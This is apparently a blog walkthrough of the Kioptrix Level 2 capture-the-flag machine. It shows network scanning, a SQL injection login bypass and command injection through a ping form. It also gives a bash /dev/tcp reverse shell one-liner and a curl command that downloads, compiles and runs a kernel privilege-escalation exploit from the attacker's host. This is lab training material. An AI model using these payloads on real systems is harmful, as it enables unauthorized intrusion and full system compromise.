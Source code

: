 ```yaml
---
layout: post
title: "Kioptrix 2 writeup"
subtitle: "~ Walkthrough of Kioptrix 2 machine ~"
date: 2017-10-04
author: V3ded
category: CTF
tags: blog ctf pentesting 
finished: true
---
```


# Intro
Hey guys, in this post I'll try and show you how to solve Level 2 Kioptrix machine. This is a first blog and there is heavy ongoing experimentation with Jekyll markup, so expect some aesthetical errors and uneven parts or padding.
Without further a do, let's start. 

# Scanning, enumeration and exploitation
Run netdiscover to find the IP of our needed machine:

```console
root@EdgeOfNight:~# netdiscover 

 Currently scanning: 192.168.45.0/16   |   Screen View: Unique Hosts           
                                                                               
 9 Captured ARP Req/Rep packets, from 7 hosts.   Total size: 540               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.0.1       [REDACTED]          2      120  Compal Broadband Networks, I
 192.168.0.54      [REDACTED]          2      120  AzureWave Technology Inc.   
 192.168.0.87      [REDACTED]          1      60  Kaonmedia CO., LTD.         
 192.168.0.115     [REDACTED]          1      60  PCS Systemtechnik GmbH      
 192.168.0.234     [REDACTED]          1      60  Apple, Inc.                 
 192.168.0.53      [REDACTED]          1      60  Hon Hai Precision Ind. Co.,L
 192.168.0.101     [REDACTED]          1      60  Hon Hai Precision Ind. Co.,L
```

By digging around a bit I've found out that Kioptrix has been assined an IP of **192.168.0.115** !

As always it's important to find as much information about our target as possible and therefore I decided to run an nmap Scan.

```console
root@EdgeOfNight:~# nmap -A -T5 -sS 192.168.0.115
Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-03 21:26 BST
Nmap scan report for 192.168.0.115
Host is up (0.00020s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            915/udp  status
|_  100024  1            918/tcp  status
443/tcp  open  ssl/https?
|_ssl-date: 2017-10-04T00:27:31+00:00; +4h00m02s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 08:00:27:81:47:B7 (Oracle VirtualBox virtual NIC)
Device type: general purpose|media device
Running: Linux 2.6.X, Star Track embedded
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hd
OS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)
Network Distance: 1 hop

Host script results:
|_clock-skew: mean: 4h00m01s, deviation: 0s, median: 4h00m01s

TRACEROUTE
HOP RTT     ADDRESS
1   0.20 ms 192.168.0.115

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.00 seconds
```

We get hits on different ports such as 22 [SSH], 80 [HTTP], 111 [RPC bind], 3306 [MYSQL] and more.  Because our target is running an HTTP web server we put the IP in a browser which results in this page:

<img src="/img/blog/IMG_1797.JPG">

This seems like a custom, lazy-made login function. Normally I wouldn't try and break login pages & their authentication in the first stage of enumeration, but because of the cheap look, an attempt for [SQL injection](https://www.w3schools.com/sql/sql_injection.asp) won't hurt. And indeed, a simple `' or 1=1#` did the trick!  Login has been successfully bypassed and we are presented with yet another challenge!  

<img src="/img/blog/IMG_1798.JPG">

From enough completed challenges and CTFs I immediately recognized a possible code injection vulnerability. Let me explain. Our current webapp prompts us to enter a machine to ping. If you think about what's happening inside our target, a command like this is parsed: `ping Entered_IP`. Seems harmless, right? Well, no it is not! A character like "semicolon" (;) or "OR" can be used to append a terminator to the preset ping command which changes a query from `ping ENTERED_IP` to  `ping ENTERED_IP; malicious input`. This effectively allows for code execution which makes us able to enter any command we like into our designated machine. 

<img src="/img/blog/IMG_1799.JPG">

An attempt to estabilish a reverse shell with netcat was made, but as it appears, our target doesn't  have it. Luckily, there was another trick up my sleeve - `; bash -i >& /dev/tcp/192.168.0.213/4444 0>&1`. This is just another way of telling a computer to connect back to you. Of course before doing this we need to ready our netcat listener. `nc -lvp 4444`

<img src="/img/blog/IMG_1800.JPG">		
			 
`lvp - listen, verbose, port`

BOOM! 
If you are interested in doing more research in this topic I highly suggest this article: <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>


# Post Exploitation
Feels good once you get that shell, doesn't it? Non the less, we need to escalate our privileges and  pwn the server as a whole - not just as apache. Time to snoop around!

There are 2 users in the home directory (john and harold), however both of them have restriced home folders which we can not access. A search for uncommon misconfigurations such as writable passwd or shadow file yielded no result. After a while during my system enumeration I spotted that the kernel is pretty outdated. 
`uname -a` results in  `Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux`

Last compiled in 2007? This possibly opens up a privilege escalation vulnerability. After the finding, google search or exploitdb can be used for locating a corresponding kernel exploit. File of interest: <https://www.exploit-db.com/exploits/9545/>. Usually it's a good practice to avoid kernel exploitation as this opens up many dangers such as crashing or corrupting the machine. Always make sure there are no other options before trying kernel exploitation!

I decided to download the code onto my machine, host it on apache 2 webserver and make the victim download it via the previously gained shell. Here are the steps:

##### Our machine (where exploit.c is the file you downloaded):
```console
root@EdgeOfNight:~# mv /root/Downloads/privesc.c /var/www/html/ && /etc/init.d/apache2 start
[ ok ] Starting apache2 (via systemctl): apache2.service.
```
`mv - moves privesc.c file from Downloads to /var/www/html`

`/etc/init.d/apache2 start - starts apache web server on our machine which makes privesc.c file downloadable by accessing our IP address`

`&& - just executes the 2 commands after each other`


##### Kioptrix machine:
```console
cd /tmp && id && curl 192.168.0.213/exploit.c -o exploit.c 2> /dev/null && gcc exploit.c && ./a.out 
```

<img src="/img/blog/IMG_1801.JPG">

`cd /tmp - changes directory into tmp`

`id - prints user information before privilege escalation`

`curl IP/exploit.c - makes an HTTP request to our machine where /exploit.c is path to corresponding exploit, -o saves the output of the request, 2> is not needed - pipes the curl commands errors into "void"`

`gcc exploit.c - compiles our C code using GCC`

`./a.out - runs the compiled binary from GCC (every compiled file by this compiler has default output name of a.out)`

## <centre>Congratulations! The box has been rooted!</centre>


# Conclusion
A solid box with a lot of hidden knowledge for new people entering infosec community. There are always things to learn no matter how many times you do them - same with this box. Personally I found this challenge quite easy, but enjoyed it non the less. My thanks goes to the creator for making such an awesome box.

Have any suggestions or feedback? Write it down below in the comments or send me a message on twitter!

~V3
